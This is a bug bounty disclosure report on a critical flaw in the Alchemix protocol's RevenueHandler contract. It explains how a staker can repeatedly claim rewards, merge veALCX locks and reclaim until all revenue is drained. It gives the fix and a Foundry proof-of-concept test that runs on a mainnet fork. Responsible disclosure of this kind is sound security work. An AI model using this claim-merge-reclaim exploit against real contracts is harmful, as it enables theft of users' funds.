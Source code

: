
# Stealing all revenue from the Alchemix protocol

Submitted on May 20th 2024 at 03:18:32 UTC by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31472

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

The `RevenueHandler` receives all revenue from the Alchemix protocol, and allows *veALCX stakers* to claim it.

This report shows how 1 malicious staker can steal all funds in the `RevenueHandler`.

A coded Proof of Concept was added to this report.

## Vulnerability Details

In report **30800** we discover how to steal FLUX by *claiming* rewards, then *merging staked positions* and *re-claiming* with an inflated balance.

For the past 14 days, we wondered how to execute a similar attack vector but to steal all revenue from the Alchemix protocol inside the `RevenueHandler`. Today we found a flag in the code that makes it possible.

### The vulnerable function

The bug is in the internal function `_claimable(..)` of `RevenueHandler`. Here's the relevant part:

```javascript
function _claimable(uint256 tokenId, address token) internal view returns (uint256) {

		// Some code here was removed for simplicity...

		for (
				uint256 epochTimestamp = lastClaimEpochTimestamp + WEEK;
				epochTimestamp <= currentEpoch;
				epochTimestamp += WEEK
		) {
				uint256 epochTotalVeSupply = IVotingEscrow(veALCX).totalSupplyAtT(epochTimestamp);
				if (epochTotalVeSupply == 0) continue;
				uint256 epochRevenue = epochRevenues[epochTimestamp][token];
				uint256 epochUserVeBalance = IVotingEscrow(veALCX).balanceOfTokenAt(tokenId, epochTimestamp);
				totalClaimable += (epochRevenue * epochUserVeBalance) / epochTotalVeSupply;
		}
		return totalClaimable + userCheckpoints[tokenId][token].unclaimed;
}
```
> Github link: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol#L297-L326

The "`for`" loop distributes rewards until the `epochTimestamp` is less **OR EQUAL** than the timestamp for the current epoch.

Transferring rewards to the owner of a veALCX position based on the current balance of the lock is a mistake because veALCX positions can be merged with almost empty positions, allowing for an infinite claiming-merging-reclaiming cycle until no funds are left in the `RevenueHandler`.

The vulnerability can be fixed by replacing `epochTimestamp <= currentEpoch` with `epochTimestamp < currentEpoch`.

### Attack Vector Explained

**Step 1-** Batman and Superman create two `veALCX` Locks, each with **1e18** BPT tokens.

**Step 2-** Joker creates 2 locks, one of them with **1e18** BPT and the second with **1 WEI** of BPT.

> The current timestamp is `1682553635`. During the next blocks an arbitrary amount of revenue is collected by the RevenueHandler, for this example let's say it is `2000e18`.

**Step 3-** Time moves forward to a new epoch, the current timestamp is `1683763200`, and Joker creates a checkpoint in the RevenueHandler and VotingEscrow by calling:
```
revenueHandler.checkpoint();
veALCX.checkpoint();
```

> Right now, the revenue tokens Joker can claim with his lock of **1e18** BPTs is `668036131103950037396`, and for his second lock with **1 WEI** BPT is `0`.
>
> Therefore, the total reward he can claim for his two locks is `668036131103950037396 + 0 = 668036131103950037396`.

**Step 4-** Joker claims all rewards for his **1e18** lock.

**Step 5-** Joker merges the balance of his **1e18** lock with his **1 WEI** lock.

**Step 6-** Joker claims all rewards for his second lock (with an inflated balance).

> Joker's rewards balance is now `1336073005660618375927` instead of `668036131103950037396`.

This can be repeated with more almost-empty locks to drain the protocol fully.

## Impact Details
Stealing all revenue from the Alchemix protocol




## Proof of Concept

In the `RevenueHandlerTest ` paste this test and run it with the same timestamp and block used in the test suite.

Run test with:
``` 
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{YOUR_API_KEY} --match-test "testBugInClaim" --fork-block-number 17133822 -vv
```

PoC:
```
		function testBugInClaim() external {

				console2.log(block.timestamp);

				uint256 _tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
				uint256 _tokenId2 = createVeAlcx(admin, 1, MAXTIME, true);
				uint256 _tokenId3 = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
				uint256 _tokenId4 = createVeAlcx(admin, TOKEN_1, MAXTIME, true);

				hevm.warp(block.timestamp + (ONE_EPOCH_TIME - 35)); // Current timestamp plus (2 weeks minus 35 seconds)
				hevm.roll(block.number + ONE_EPOCH_BLOCKS);

				// We accrue revenue
				uint256 revAmt = 2000e18;
				_accrueRevenue(dai, revAmt);

				// Then we checkpoint
				revenueHandler.checkpoint();
				veALCX.checkpoint();

				console2.log("alUSD balance before:", IERC20(alusd).balanceOf(admin)); // 0

				console2.log("Claimable for _tokenId1:", revenueHandler.claimable(_tokenId1, alusd)); // 668036131103950037396
				console2.log("Claimable for _tokenId2:", revenueHandler.claimable(_tokenId2, alusd)); // 0
				console2.log("Balance after claiming should be _tokenId1 + _tokenId2 = ", revenueHandler.claimable(_tokenId1, alusd) + revenueHandler.claimable(_tokenId2, alusd));

				hevm.startPrank(admin);

				// Claim _tokenId1
				revenueHandler.claim(_tokenId1, alusd, address(0), revenueHandler.claimable(_tokenId1, alusd), admin);

				// Merge _tokenId1 and _tokenId2
				veALCX.merge(_tokenId1, _tokenId2);

				// Claim _tokenId2
				revenueHandler.claim(_tokenId2, alusd, address(0), revenueHandler.claimable(_tokenId2, alusd), admin);

				hevm.stopPrank();

				console2.log("Actual finanl balance:", IERC20(alusd).balanceOf(admin));
    }

```